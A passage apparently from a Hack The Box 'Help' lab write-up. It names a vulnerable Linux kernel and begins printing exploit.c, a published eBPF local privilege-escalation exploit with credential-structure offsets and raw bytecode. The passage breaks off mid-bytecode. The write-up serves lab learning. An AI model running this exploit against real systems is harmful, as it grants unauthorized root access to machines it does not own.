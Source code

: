 ![](/images/hackthebox/help/23.png)
<br> That kernel version is vulnerable to a local privilege escalation vulnerability and there's an [exploit](https://www.exploit-db.com/exploits/44298) published for it.
`exploit.c` :
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <fcntl.h>
#include <string.h>
#include <linux/bpf.h>
#include <linux/unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <sys/stat.h>
#include <stdint.h>

#define PHYS_OFFSET 0xffff880000000000
#define CRED_OFFSET 0x5f8
#define UID_OFFSET 4
#define LOG_BUF_SIZE 65536
#define PROGSIZE 328

int sockets[2];
int mapfd, progfd;

char *__prog = 	"\xb4\x09\x00\x00\xff\xff\xff\xff"
		"\x55\x09\x02\x00\xff\xff\xff\xff"
		"\xb7\x00\x00\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x18\x19\x00\x00\x03\x00\x00\x00"
		"\x00\x00\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x00\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x06\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x01\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x07\x00\x00\x00\x00\x00\x00"
		"\xbf\x91\x00\x00\x00\x00\x00\x00"
		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
		"\x07\x02\x00\x00\xfc\xff\xff\xff"
		"\x62\x0a\xfc\xff\x02\x00\x00\x00"
		"\x85\x00\x00\x00\x01\x00\x00\x00"
		"\x55\x00\x01\x00\x00\x00\x00\x00"
		"\x95\x00\x00\x00\x00\x00\x00\x00"
		"\x79\x08\x00\x00\x00\x00\x00\x00"
		"\xbf\x02\x00\x00\x00\x00\x00\x00"
```